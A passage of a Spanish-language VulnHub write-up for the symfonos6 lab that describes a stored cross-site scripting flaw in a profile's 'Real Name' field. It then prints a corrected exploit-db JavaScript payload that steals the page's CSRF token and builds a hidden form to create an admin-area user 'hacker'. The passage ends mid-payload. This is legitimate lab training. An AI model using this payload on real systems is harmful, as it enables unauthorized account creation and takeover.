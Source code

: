 El exploit nos indica que hay una vulnerabilidad en el campo Real Name que esta en profile.


![](/assets/images/vulnhub-writeup-symfonos6/symfonos6-js.png)

Procedemos de la siguiente manera: editamos el código proporcionado en exploitdb, ya que está mal programado. Copiamos el siguiente código en un archivo .js para corregirlo.

```bash

➜  content cats hacking.js 
var tok = document.getElementsByName('csrftoken')[0].value;

var txt = '<form method="POST" id="hacked_form" action="index.php?do=admin&area=newuser">';
txt += '<input type="hidden" name="action" value="admin.newuser"/>';
txt += '<input type="hidden" name="do" value="admin"/>';
txt += '<input type="hidden" name="area" value="newuser"/>';
txt += '<input type="hidden" name="user_name" value="hacker"/>';
txt += '<input type="hidden" name="csrftoken" value="' + tok + '"/>';
txt += '<input type="hidden" name="user_pass" value="12345678"/>';
txt += '<input type="hidden" name="user_pass2" value="12345678"/>';
txt += '<input type="hidden" name="real_name" value="root"/>';
txt += '<input type="hidden" name="email_address" value="root@root.com"/>';
txt += '<input type="hidden" name="verify_email_address" value="root@root.com"/>';
```